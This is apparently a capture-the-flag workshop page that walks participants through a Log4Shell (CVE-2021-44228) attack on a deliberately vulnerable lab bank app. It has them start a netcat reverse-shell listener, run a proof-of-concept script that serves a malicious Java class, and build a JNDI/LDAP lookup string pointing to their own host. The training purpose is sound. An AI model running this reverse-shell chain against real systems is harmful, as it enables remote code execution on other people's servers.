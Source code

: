 ```yaml
---
title: "Hack the Bank! Pt 2: RELEASE THE HOUNDS!"
chapter: false
weight: 10
pre: "<b>3.1 </b>"
---
```


### Background

During the close of 2021 there was a vulnerability released and given the CVE (Common Vulnerability Enumeration) ID CVE-2021-44228.

This new critical vulnerability has been found in log4j, a widely-used open-source utility used to generate logs inside java applications.

You know it's a good one when they give it a logo or a name. This one was called Log4Shell because it permits Remote Code Execution (RCE), allowing attackers to execute arbitrary code on the host. More specifically, it allows an attacker to get a working shell on the host!

The anatomy of it is both simple and complicated at the same time.

It uses a combination of technologies:

- JNDI - The Java Naming and Directory Interface (JNDI) provides an API for java applications, which can be used for binding remote objects , looking up or querying objects

- LDAP - Lightweight directory access protocol (LDAP) is a protocol that makes it possible for applications to query user information remotely and rapidly

- The fact that lookups in Log4j are triggered by special ${....} sequences, like this:

```
console\cloud9: java TryLogger.java "${env.OS}/${env.Version}"
```

### Your Mission
In this instance the "Hounds" are a basic hacking toolkit for our log4shell attack on the Bank.

In your AWS Console go to your Cloud9 command center! (okok, it's just a web IDE, but still!)

You DO NOT need to create a new environment. One has been created for you called "JankyBank-CTF...". Find it under "Shared with me" and click "Open IDE".

We'll need two terminals side by side for our attack. You can dismiss the Welcome tab and click the green '+' to create the first New Terminal.

Let's start a second terminal next to it.

{{% notice info %}}
<p style='text-align: left;'>
In the top menu go to View, Layout and click Horizontol Split. In our second panel click on the '+' to start a new terminal. You should now have two terminals side by side.
</p>
{{% /notice %}}

![alt_text](images/2terms.png "image_tooltip")
 *Going forward we will refer to the left as Terminal 1 and the right as Terminal 2* 

In your Cloud 9 console you should see a directory called log4sheller.

Execute the following commands and see what's there:

```
cd log4sheller
ls
```

Output:

```
LICENSE  README.md  init.sh  jdk1.8.0_20  netcat.sh  poc.py  requirements.txt  target
```

We will use the tools netcat.sh and poc.py in tandem with Log4janky bank to exploit the details above.

#### Terminal 1:
Prepare to receive an incoming connection which will provide us a reverse shell into the running application host

To do this run the netcat.sh utility using a unique port number found in the "NetCatPort" range located in the Output properties panel.

Eg.

```
bash netcat.sh NetCatPort
```

The output should run netcat AND explain each of the parameters being used and why. The final line should look like this:

```
Listening on [0.0.0.0] (family 0, port NetCatPort)
```

#### Terminal 2:
Here's what we're going to do.

We worked out in a previous Task that if we log into the Bank with a bad username and password it said it was logging our details. One would assume that it may specifically log the username in order to see if this was a brute force attack.

If we take advantage of what we know above we can craft a loggable username that will trigger our vulnerability. Let's start with putting something in variable brackets that needs to be resolved very much like it does in Cloud Formation

Eg. Both Cloud Formation and Java use a variable format notation like
`${resolvable variable}`
We know that if we use JNDI to indicate that we are binding a new java class. That would look like

`${jndx:path to my java class}`
Finally, rather than a direct path to a class we provide an LDAP server which Java can also resolve. Our malicious LDAP server will return a simple web server to offer up a malicious new Java class. Clever isn't it!

The final result will actually look like this

`${jndx:ldxp://yourip:1389/a}`
We're going to need our IP address so the Bank knows where to find us.
We will also need to pick a port that is externally available.

Check the Output Properties panel of our setup CloudFormation for the available port ranges we will need. You can choose any unique port between the ranges provided in the output for the command parameters:

- Cloud9IP
- WebPort

Let's run our `poc.py` code using these parameters. The NetCat Port is the same one we used back in Step 1.

Eg.

```
python3 poc.py --userip Cloud9IP  --webport WebPort  --lport NetCatPort
```


The output will explain each step. It will even generate a new Exploit.class on the fly, start up a webserver to serve it up and will give you the jndi string you require to being our attack.

The last two lines of output will be

```
[+] Starting Webserver on port  http://0.0.0.0:webport
Listening on 0.0.0.0:1389
```

What is the unique generated attack string?

Lets move on to attacking the bank with our prepared Log4Shell exploit...